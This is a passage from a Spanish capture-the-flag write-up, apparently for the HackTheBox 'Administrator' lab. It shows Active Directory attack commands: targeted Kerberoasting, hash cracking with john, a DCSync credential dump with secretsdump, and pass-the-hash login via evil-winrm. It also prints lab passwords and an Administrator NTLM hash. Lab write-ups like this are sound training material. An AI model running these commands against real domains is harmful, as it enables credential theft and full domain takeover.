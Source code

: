 <figure><img src="../../../.gitbook/assets/2541_vmware_gdPk5AINyD (1).png" alt="" width="447"><figcaption></figcaption></figure>

Se realizó el ataque a través de **targetedKerberoast** y se obtuvo un TGS (Ticket Granting Service) sobre el usuario "ethan@administrator.htb", que posteriormente crackearemos de manera offline.

{% code overflow="wrap" %}
```bash
python3 /opt/targetedKerberoast/targetedKerberoast.py -v -d 'administrator.htb' -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2543_vmware_9qrb5kp1hF.png" alt=""><figcaption></figcaption></figure>

Procederemos a crackear el hash obtenido para obtener la contraseña del usuario "ethan@adminsitrator.htb".

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

<figure><img src="../../../.gitbook/assets/2544_vmware_yVmMR7gIBL.png" alt=""><figcaption></figcaption></figure>

Validaremos que las credenciales son válidas para el dominio.

```bash
netexec smb 10.10.11.42 -u 'Ethan' -p 'limpbizkit'
```

<figure><img src="../../../.gitbook/assets/2545_vmware_DMiulx7vLb.png" alt=""><figcaption></figcaption></figure>

### DCSync Attack (secretsdump)

Al revisar nuevamente en **BloodHound**, se verificó que el usuario **ethan@administrator.htb** dispone de privilegios **DCSync**, lo que nos permite llevar a cabo un **DCSync Attack**. Esto nos da la posibilidad de obtener todos los hashes **NTLM** del archivo **NTDS.dit**, que es la base de datos de **Active Directory** y almacena las contraseñas de todos los usuarios del dominio.

<figure><img src="../../../.gitbook/assets/2538_vmware_riSWMvxAtY.png" alt=""><figcaption></figcaption></figure>

Se realizó el ataque de **DCSync Attack** y obtuvimos todos los hashes NTLM, incluídos los del usuario Administrator.

```bash
secretsdump.py -just-dc-ntlm administrator.htb/ethan@10.10.11.42
```

<figure><img src="../../../.gitbook/assets/2546_vmware_00at5y545v.png" alt=""><figcaption></figcaption></figure>

Verficaremos que el hash NTLM es válido y procederemos a conectarnos a través de **evil-winrm** con el usuario **administrator@administrator.htb** y verificar la flag de **root.txt**.

```bash
netexec winrm 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

evil-winrm -i 10.10.11.42 -u 'Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

<figure><img src="../../../.gitbook/assets/2547_vmware_rtunSQdrZT.png" alt=""><figcaption></figcaption></figure>
